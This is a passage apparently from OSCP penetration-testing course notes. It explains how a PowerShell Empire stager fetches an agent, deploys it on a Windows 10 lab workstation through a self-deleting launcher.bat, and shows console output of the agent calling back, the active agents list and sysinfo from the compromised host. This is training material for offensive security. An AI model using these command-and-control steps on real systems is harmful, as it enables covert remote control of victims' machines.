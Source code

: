 The stager is a base64-encoded PowerShell command string. 

 This first-stage payload will connect to the listener and fetch the rest of the Empire agent code.


![dockerengine]({{ site.baseurl }}/post_img//oscp_origin/23/1.jpg)
23.1.3 The Empire Agent


 Now that we have our listener running and our stager prepared, we will need to deploy an agent on the victim.
 
 An agent is simply the final payload retrieved by the stager, and it allows us to execute commands and interact with the system.
 
 The stager (in this case the .bat file) deletes it self and exits once it finishes execution.

 Once the agent is operational on the target, it will set up an AES-encrypted communication channel with the listener using the data portion of the HTTP GET and POST requests.

 We will first copy the launcher.bat script to the Windows 10 workstation and execute it from acommand prompt.

![dockerengine]({{ site.baseurl }}/post_img//oscp_origin/23/2.jpg)

 After successful execution of the launcher script, an initial agent call will appear in our Empire session as shown in Listing 829:

(Empire: stager/windows/launcher_bat) > [+] Initial agent S2Y5XW1L from 10.11.0.22 now
active (Slack)

Next, we can use the agents command to display all active agents.

(Empire: stager/windows/launcher_bat) > agents

[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0

(Empire: agents) >


 Now, we can use the interact command followed by the agent name to interact with our agent and execute commands.

 In this case, we will run sysinfo to retrieve information about the compromised host (Listing 831).

(Empire: agents) > interact S2Y5XW1L

(Empire: S2Y5XW1L) > sysinfo

(Empire: S2Y5XW1L) > sysinfo: 0|http://10.11.0.4:80|corp|offsec|CLIENT251|10.11.0.22|M
icrosoft Windows 10 Pro|False|powershell|2976|powershell|5

Listener: http://10.11.0.4:80
Internal IP: 10.11.0.22
Username: corp\offsec
Hostname: CLIENT251
OS: Microsoft Windows 10 Pro
High Integrity: 0
Process Name: powershell
Process ID: 2976
Language: powershell
Language Version: 5
...
